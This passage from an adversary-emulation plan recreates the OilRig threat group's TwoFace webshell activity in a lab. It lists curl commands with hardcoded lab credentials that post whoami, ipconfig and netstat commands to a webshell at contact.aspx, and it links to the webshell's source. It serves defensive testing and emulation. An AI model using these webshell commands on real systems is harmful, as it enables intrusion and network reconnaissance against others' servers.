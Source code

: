 
### :biohazard: Procedures

On Linux Attack Platform box, change directories to the TwoFace payload folder:

```
cd /opt/oilrig/Resources/payloads/TwoFace
```

Use the webshell to enumerate the current user.

```bash
# OilRig has run whoami on a victim.[3][4][10]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=whoami" https://10.1.0.6/ews/contact.aspx
```

Enumerate the system network configurations.

```bash
# OilRig has run ipconfig /all on a victim.[3][4]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=ipconfig /all" https://10.1.0.6/ews/contact.aspx
```

Use the webshell to perform network discovery on `WATERFALLS (10.1.0.6)`, 
discovering a connection to host 10.1.0.7 via a port commonly associated with 
SQL.

```bash
# OilRig has used netstat -an on a victim to get a listing of network connections.[3]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=netstat -an" https://10.1.0.6/ews/contact.aspx
```

<br>

### :moyai: Source Code
*  TwoFace Webshell instruction parsing: [contact.aspx#L12-L21](../Resources/TwoFace/contact.aspx#L12-L21)
*  TwoFace Webshell command execution: [contact.aspx#L176-L194](../Resources/TwoFace/contact.aspx#L176-L194/)

<br>

### :microscope: Cited Intelligence
*  TwoFace: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/
*  Network discovery: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>


## Step 6 - Privileged Credential Dumping
